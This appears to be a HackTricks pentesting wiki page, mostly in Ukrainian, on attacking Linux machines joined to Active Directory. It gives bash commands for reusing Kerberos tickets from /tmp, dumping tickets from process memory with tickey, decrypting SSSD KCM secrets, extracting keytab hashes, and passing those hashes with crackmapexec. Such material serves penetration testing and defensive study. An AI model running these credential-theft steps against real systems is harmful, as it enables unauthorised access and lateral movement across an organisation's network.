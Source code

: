 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Linux-машина також може бути присутня в середовищі Active Directory.

Linux-машина в AD може **зберігати різні квитки CCACHE у файлах. Ці квитки можуть бути використані та зловживані, як і будь-який інший квиток kerberos**. Щоб прочитати ці квитки, вам потрібно бути власником квитка або **root** на машині.

## Enumeration

### AD enumeration from linux

Якщо у вас є доступ до AD в linux (або bash в Windows), ви можете спробувати [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) для перерахунку AD.

Ви також можете перевірити наступну сторінку, щоб дізнатися **інші способи перерахунку AD з linux**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA є відкритим **альтернативою** Microsoft Windows **Active Directory**, в основному для **Unix** середовищ. Він поєднує в собі повний **LDAP каталог** з MIT **Kerberos** Центром розподілу ключів для управління, подібним до Active Directory. Використовуючи систему сертифікатів Dogtag для управління сертифікатами CA та RA, він підтримує **багатофакторну** аутентифікацію, включаючи смарт-карти. SSSD інтегровано для процесів аутентифікації Unix. Дізнайтеся більше про це в:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Playing with tickets

### Pass The Ticket

На цій сторінці ви знайдете різні місця, де ви могли б **знайти квитки kerberos всередині linux-хоста**, на наступній сторінці ви можете дізнатися, як перетворити ці формати квитків CCache в Kirbi (формат, який вам потрібно використовувати в Windows) і також як виконати атаку PTT:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### CCACHE ticket reuse from /tmp

Файли CCACHE є бінарними форматами для **зберігання облікових даних Kerberos**, зазвичай зберігаються з правами 600 у `/tmp`. Ці файли можна ідентифікувати за їх **форматом імені, `krb5cc_%{uid}`,** що відповідає UID користувача. Для перевірки квитка аутентифікації **змінна середовища `KRB5CCNAME`** повинна бути встановлена на шлях до бажаного файлу квитка, що дозволяє його повторне використання.

Перерахуйте поточний квиток, що використовується для аутентифікації, за допомогою `env | grep KRB5CCNAME`. Формат є портативним, і квиток може бути **повторно використаний, встановивши змінну середовища** за допомогою `export KRB5CCNAME=/tmp/ticket.ccache`. Формат імені квитка Kerberos - `krb5cc_%{uid}`, де uid - це UID користувача.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE квитки повторного використання з keyring

**Квитки Kerberos, збережені в пам'яті процесу, можуть бути витягнуті**, особливо коли захист ptrace на машині вимкнено (`/proc/sys/kernel/yama/ptrace_scope`). Корисний інструмент для цієї мети можна знайти за адресою [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), який полегшує витяг, інжектуючи в сесії та скидаючи квитки в `/tmp`.

Щоб налаштувати та використовувати цей інструмент, слідуйте наведеним нижче крокам:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Ця процедура спробує інжектувати в різні сесії, вказуючи на успіх, зберігаючи витягнуті квитки в `/tmp` з іменуванням `__krb_UID.ccache`.


### Повторне використання квитків CCACHE з SSSD KCM

SSSD підтримує копію бази даних за шляхом `/var/lib/sss/secrets/secrets.ldb`. Відповідний ключ зберігається як прихований файл за шляхом `/var/lib/sss/secrets/.secrets.mkey`. За замовчуванням, ключ доступний для читання лише якщо у вас є **root** права.

Виклик \*\*`SSSDKCMExtractor` \*\* з параметрами --database та --key розпарсить базу даних та **дешифрує секрети**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**Кеш облікових даних Kerberos blob можна перетворити на використовуваний файл Kerberos CCache**, який можна передати Mimikatz/Rubeus.

### Повторне використання квитків CCACHE з keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Витягти облікові записи з /etc/krb5.keytab

Ключі облікових записів служб, які є необхідними для служб, що працюють з привілеями root, надійно зберігаються у файлах **`/etc/krb5.keytab`**. Ці ключі, подібно до паролів для служб, вимагають суворої конфіденційності.

Щоб перевірити вміст файлу keytab, можна використовувати **`klist`**. Цей інструмент призначений для відображення деталей ключа, включаючи **NT Hash** для аутентифікації користувачів, особливо коли тип ключа визначено як 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Для користувачів Linux, **`KeyTabExtract`** пропонує функціональність для витягування хешу RC4 HMAC, який можна використовувати для повторного використання хешу NTLM.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
На macOS **`bifrost`** слугує інструментом для аналізу файлів keytab.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Використовуючи витягнуту інформацію про облікові записи та хеші, можна встановити з'єднання з серверами за допомогою інструментів, таких як **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Посилання
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
